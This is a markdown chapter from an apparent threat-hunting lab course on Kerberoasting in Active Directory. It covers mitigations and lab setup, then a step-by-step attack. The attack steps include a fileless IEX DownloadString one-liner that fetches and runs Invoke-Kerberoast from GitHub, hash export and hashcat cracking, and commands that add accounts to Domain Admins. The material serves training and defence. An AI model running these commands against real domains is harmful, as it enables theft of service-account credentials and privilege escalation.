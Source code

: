 # Chapter 2.2 - Kerberoasting

> **So why is Kerberoasting so interesting :**
>
>- can be performed from any ***domain joined machine***.
>- user needs no special privileges to request a service ticket - ***ANY*** authenticated user can do this.
>- The target system doesn't even need to be available or even exist anymore, if the SPN (service account that exists is enough).
>- Very hard to spot as this blends in with other service ticket requests.
>- Cracking the ticket happens ***off-line***.

**Here's the gist of it:**

Part of a TGS requested for any SPN, is encrypted with the **NTLM hash of that service account’s plaintext password**, any user can request these TGS tickets and then crack hash of the service account offline, without the risk of account lockout!

# HIGH LEVEL OVERVIEW OF KERBEROS
---

![image](./images/00_kerberos1.jpg)
<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

![image](./images/00_kerberos2.jpg)
<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

>**Kerberoasting mitigations:** The best way to prevent adversaries from cracking kerberos tickets is by using very long and complex passwords. Service Accounts should have a minimum of **25 characters**, make sure to frequently **rotate** the passwords and adhere to the **least privilege** principle when assigning rights to the account (i.e. Don't add the account to Domain Admins just because it's easy). You can also consider using Group Managed Service Accounts (**GSMA**) or another third-party product such as a password vault.

The table below shows you the average time it would take to brute-force a password, keep in mind these numbers only reflect hard brute forcing, so not using password dictionaries or rainbox tables.

---

![Screenshot](./images/kerberoast_01.jpg)

---

A Few useful **CLI** commands:

|command|Details|
|---|---|
|**net user SVC_SQL /domain**|*Query DC for user details.*|
|**net user SVC_SQL Password123!**|*Set the password of a domain user to Password123.*|
|**net user /add /domain /active:yes SVC_SQL Password123!**|*Add a user to the domain, enable the account and set the password.*|
|**net user SVC_SQL /domain /active:no**|*Disable (or enable) a domain account*|
|**net group "domain admins" SVC_SQL /ADD /DOMAIN**|*Add account to "Domain Admins" (or any other group).*|
|**setspn -T acme -Q \*/\***|*Enumerate all Service Principal Names (SPN), to find service accounts.*|
|**setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql**|*Create an SPN for an account.*|

---

And the same in **POWERSHELL**:

|command|Details|
|---|---|
|**$secpasswd = ConvertTo-SecureString -String "Password123" -AsPlainText -Force**|*Put the password in a variable.*|
|**New-ADuser -Name 'SVC_SQL' -GivenName 'SVC' -Surname 'SQL' -DisplayName 'SVC_SQL' -AccountPassword $secpasswd -enabled 1**|*Add a user to the domain, enable the account and set the password.*|

---

So now let's set up our lab environment by creating a kerberoastable account that has a weak password.

First of all open a new command prompt and let's make sure we have domain admin privileges, needed for creating an account in the domain. The ***password*** for DA_student = student.

```yaml
runas /user:DA_student@acme.local cmd.exe
```

Now we are running a command prompt under DA_student account.

```yaml
net user /add /domain /active:yes SVC_SQL Password123!
```

This will create a new user, activates the account and sets the password to "Password123!".

```yaml
setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql
```

The setspn -A command will set up the SPN for the service account, in this case for a service on the domain controller (dc.acme.local) on port 12345.

Let's check if the SPN was correctly registered:

```yaml
setspn -T acme -Q */*
```

![image](./images/02_getspnexe.jpg)

# KERBEROASTING IN ACTION
---

- source: ***[GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)*** - link

Let's see which **SPN**'s exist and to which groups they belong, let try to get some parent process activity going. Open a **command** prompt:

```yaml
powershell.exe -NoP -NonI -Exec Bypass -command "c:\labs\4_KERBEROAST\GetUserSPNs.ps1"
```

![image](./images/02_getspns_pwsh.jpg)

Now let's request a ticket for those SPN's, by running the one-liner below you're again doing the attack in a file-less manner by downloading the Invoke-Kerberoast powershell script directly into the memory of `powershell.exe`:

- source: ***[Invoke-Kerberoast.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)*** - link

Open a **powershell** prompt (as Administrator):

```yaml
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1");Invoke-Kerberoast
```

![image](./images/02_Invoke_Kerb_pwsh.jpg)

Let's run it locally and save the hashes, this will avoid copy/paste errors, open a **powershell** prompt:

```yaml
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1');
```

```yaml
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
![image](./images/02_IEX_KERB.jpg)

So by default this will ***enumerate amd rquest tickets for ALL SPN's*** on a domain, this of course is suspicious as a user would never to request all those tickets at the same time. A more stealthy adversary will first do his recon (GetUserSPN's for example) and see which service accounts might prove juicy targets, and then just request a **single SPN**:

In the SAME **powershell** prompt:

```code
invoke-kerberoast -Identity SVC_sql
```

> Invoke-Kerberoast's default output is for **John** (the password cracker installed by default on Kali), you can ofcourse change the output format to **HashCat** as well if you prefer working with that.

On your `Windows 10 machine` use WinSCP to transfer ***hashes.kerberoast*** to your Ubuntu machine under the path ***"/opt/kerberos/"*** :

> **IMPORTANT**: If you want to run this attack multiple times, don't forget to purge your Kerberos tickets. Kerberos Tickets are cached for SSO purposes, so if you run the Invoke-Kerberoast script multplie times, your client will not request a new TGS from the DC when it still has one in it's cach.
>
> You can view and clear the cache with these commands:

```yaml
klist
```
```yaml
klist purge
```

![image](./images/00_klistpwsh.jpg)

![image](./images/00_klist_purge.jpg)

# CRACKING HASHES USING HASHCAT
---

On your `Ubuntu Machine` we're going to use hashcat to crack the hashes

First let's install hashcat

```yaml
apt get update
apt install hashcat
```

```yaml
cd /opt/kerberos
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords.txt
```


